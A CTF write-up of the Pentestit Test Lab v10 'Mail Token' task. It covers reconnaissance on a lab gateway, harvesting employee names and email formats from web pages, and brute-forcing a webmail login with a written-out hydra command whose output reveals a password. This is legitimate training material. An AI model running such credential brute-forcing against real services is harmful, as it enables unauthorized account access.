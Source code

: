 ```yaml
---
title: Pentestit Test Lab v10 WriteUp - Mail Token
categories: ['CTF WriteUp']
tags: ['Hacking']
---
```


# Intro/Network
Lets look at the network diagram first:
![Image]({{ site.baseurl }}/images/testlabv10network.png)

Seems like a gray/whitebox lab, nice! Now to reach the internal networks we have to get past the gateway. After connecting to the VPN we can start attacking.



# Gathering Info
Since we can only attack the gateway, lets start gathering some info. Doing a quick nmap scan reveales the following open ports.
![Image]({{ site.baseurl }}/images/testlabv10gwnmap.png)

Usually, websites are a good start to get more info, lets check them out.

## Web on port 80
Accessing the website on port 80 brings me to their main homepage. I searched through it for a long time but couldnt find anything useful. After that I decided to continue to port 443.

## Web on port 443
Accessing the website on port 443 lead me to some kind of security blog. Searching the website for info, I found the following comment in the source:

{% highlight html %}
<!-- Alfred Modlin said use this template -->
{% endhighlight %}

hmm, looks like a employees name. maybe we can use that name later?

Searching further through the site, I found the following 2 emails on the contact site:

{% highlight html %}
Scott Locklear- s.locklear@gds.lab
Joshua Wise- j.wise@gds.lab
{% endhighlight %}

Now we know the e-mail format for the company! Combine that with the name found earlier, we possibly have another user: a.modlin@gds.lab!

## Web on port 8100
Moving on to port 8100, which looks like another webserver. Accessing the website itself brings me to a login-form of their webmail. Maybe we can bruteforce a users login via the login-form?



# Bruteforcing login
Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:

{% highlight shell %}
hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
{% endhighlight %}

With success! We found the login for a.modlin:

{% highlight shell %}
[8100][http-post] host: 192.168.101.9 login: a.modlin@gds.lab password: justdoit
[STATUS] attack finished for 192.168.101.9 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

After logging in with the found credentials, I found 2 E-Mails with one of them containing the token. Task Done!
